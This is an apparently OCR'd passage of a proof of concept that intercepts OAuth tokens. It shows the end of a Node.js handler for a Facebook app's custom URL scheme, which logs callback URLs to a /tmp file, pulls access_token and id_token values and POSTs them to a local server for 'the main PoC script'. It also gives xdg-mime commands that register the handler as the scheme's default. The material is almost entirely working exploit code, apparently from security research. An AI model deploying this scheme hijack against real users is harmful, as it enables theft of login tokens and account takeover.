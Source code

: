 ```js
		return { error: e.message };
	}
}

(async function main(){
	try {
		const url = process.argv[2];
		if (!url) {
			console.error('No URL provided to scheme handler');
			process.exit(1);
		}
			// write to tmp for debugging/local inspection
			try { require('fs').writeFileSync('/tmp/fb_oauth_capture.txt', url + '\n', { flag: 'a' }); } catch (e) {}

			// parse the URL and fragment into token fields when possible
			let payload = null;
			try {
				const parsed = new URL(url);
				// fragment after '#'
				const frag = parsed.hash || '';
				const fragParams = parseFragmentParams(frag);
				if (fragParams && (fragParams.access_token || fragParams.id_token)) {
					payload = fragParams;
				} else {
					const q = {};
					for (const [k, v] of parsed.searchParams.entries()) q[k] = v;
					if (q.access_token || q.id_token) payload = q;
				}
			} catch (e) {
				// malformed URL, fallback to raw
				payload = null;
			}

			const res = await postToLocal(payload ? payload : { url });
		if (res && res.status) {
			console.log('Posted to local server:', res.status);
			process.exit(0);
		}
		console.error('Failed to POST to local server:', res.error || res);
		process.exit(1);
	} catch (err) {
		console.error('Handler error:', err && err.message ? err.message : err);
		process.exit(2);
	}
})();
```

This handler sends the fb3063132263700744://authorize callback token to the main PoC script.

Commands to register the desktop app/callback hook:
```bash
cp fb3063132263700744.desktop ~/.local/share/applications/
update-desktop-database ~/.local/share/applications || true
xdg-mime default fb3063132263700744.desktop x-scheme-handler/fb3063132263700744
```
